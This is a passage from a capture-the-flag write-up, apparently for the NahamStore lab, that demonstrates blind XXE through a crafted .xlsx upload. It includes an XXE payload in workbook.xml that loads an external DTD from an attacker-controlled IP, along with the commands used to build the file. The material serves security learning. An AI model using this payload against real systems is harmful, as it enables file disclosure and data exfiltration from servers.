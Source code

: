 	![11xxe1-4](imgs/11xxe1-4.png)


XXE 2: BLind XXE by uploading a .xlsx file

Blind XXE
- Go to `http://nahamstore.thm/staff`
	- This page shows a message `Staff Members Only!` and allows uploading xlsx file
	![11xxe2-1](imgs/11xxe2-1.png)

- Ref: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-inside-xlsx-file
- Step 1: Create the uploading payload book1.xlsx file 
	- We can use microsoft excel, libre office Calc, or apache open office to create book1.xlsx in the CWD
	- `unzip book1.xlsx -d book1/`
	- `mousepad book1/xl/workbook.xml` and change to the following payload:
		```
		<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
		<!DOCTYPE xxe [<!ELEMENT xxe ANY ><!ENTITY % asd SYSTEM "http://10.13.19.112/my.xml">
		%asd;
		%param1;
		]>
		<xxe>&xxedata;</xxe>
		```
	- `cd book1 && zip -r ../book2.xlsx * && cd ..`